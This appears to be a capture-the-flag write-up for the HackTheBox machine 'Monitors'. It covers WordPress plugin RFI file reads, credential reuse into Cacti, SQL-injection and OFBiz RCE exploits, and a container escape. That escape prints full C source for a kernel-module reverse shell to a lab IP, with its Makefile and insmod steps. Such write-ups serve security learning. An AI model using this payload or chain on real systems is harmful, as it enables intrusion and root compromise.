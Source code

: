 # Monitors

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (166) (2).png" alt=""><figcaption></figcaption></figure>

We can add `monitors.htb` to our `/etc/hosts` file.

### Wordpress Site

Port 80 hosts a Wordpress site.

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

We can run `wpscan` to enumerate the plugins and version, and this finds that **wp-with-spritz** is being used.

<figure><img src="../../../.gitbook/assets/image (120) (2).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to RFI.

<figure><img src="../../../.gitbook/assets/image (150) (1).png" alt=""><figcaption></figcaption></figure>

We can confirm this by viewing the `/etc/passwd` file.

<figure><img src="../../../.gitbook/assets/image (5) (2) (3) (2).png" alt=""><figcaption></figcaption></figure>

After further enumeration, there's nothing else that I could find. So we probably need to read more files within this machine. I could not read any user files, so I tried to check some configuration files for the server at `/etc/apache2/sites-enabled/000-default.conf`.

<figure><img src="../../../.gitbook/assets/image (14) (2) (2) (3).png" alt=""><figcaption></figcaption></figure>

We can find a new domain at `cacti-admin.monitors.htb`. Afterwards, I also read the Wordpress configuration files at `/var/www/wordpress/wp-config.php` to find a password.

<figure><img src="../../../.gitbook/assets/image (34) (2).png" alt=""><figcaption></figcaption></figure>

### Cacti&#x20;

Upon visting this separate domain, we are greeted by another login page:

<figure><img src="../../../.gitbook/assets/image (60) (3) (2).png" alt=""><figcaption></figcaption></figure>

This version of Cacti is old and vulnerable to loads of exploits. We can login with the credentials for Wordpress. Afterwards, we can use an exploit that uses SQL injection to gain a reverse shell.

<figure><img src="../../../.gitbook/assets/image (125) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

We now have remote access as the user `marcus` and can capture the user flag.

## Privilege Escalation

### Docker Image

In the user's directory, we find a `note.txt` file that points towards a docker image being present.

<figure><img src="../../../.gitbook/assets/image (17) (1) (6).png" alt=""><figcaption></figcaption></figure>

I read the configuration files at `/etc/containerd`, and found that the `root` user was running the image.

<figure><img src="../../../.gitbook/assets/image (20) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can check the open ports of this machine via `netstat -tulpn` to see other open ports.

<figure><img src="../../../.gitbook/assets/image (15) (1) (5).png" alt=""><figcaption></figcaption></figure>

Port 8443 was open and we could access it. The next step is port forwarding.

### OfBiz RCE

I used `ssh -L 8443:localhost:8443 marcus@monitors.htb` to port forward after dropping my public key in the `authorized_keys` folder. Then, I used `gobuster` to find hidden directories present:

<figure><img src="../../../.gitbook/assets/image (68) (3).png" alt=""><figcaption></figcaption></figure>

Visting any of these would redirect us to `/content/control/main`, where there is a login page present.

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

The bottom of the page shows that this is running Apache OFBiz Release 17.12.01, which is vulnerable to loads of exploits, including an RCE one.

<figure><img src="../../../.gitbook/assets/image (61) (4).png" alt=""><figcaption></figcaption></figure>

We can follow the PoC here to execute it:

{% embed url="https://github.com/g33xter/CVE-2020-9496" %}

Then, we would gain a shell as root in the container.

<figure><img src="../../../.gitbook/assets/image (157) (4).png" alt=""><figcaption></figcaption></figure>

### Sys Module Exploit

There was nothing much within this machien that was interesting. I decided to check the capabilities of the container and found that `cap_sys_module` was enabled. This allows us to escape the container.

First we need to create a new Kernel module with some C code:

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.16.3/8888 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Then we need we need to create a `Makefile`:

```
obj-m +=reverse-shell.o

all:
        make -C /lib/modules/4.15.0-generic/build M=/root modules

clean:
        make -C /lib/modules/4.15.0-generic/build M=/root clean
```

Get them both into the root directory and start listening on a port. Afterwards, we can run `make` and `insmod reverse-shell.ko`. This would trigger the reverse shell, and give us a shell as `root`.

<figure><img src="../../../.gitbook/assets/image (32) (5).png" alt=""><figcaption></figcaption></figure>
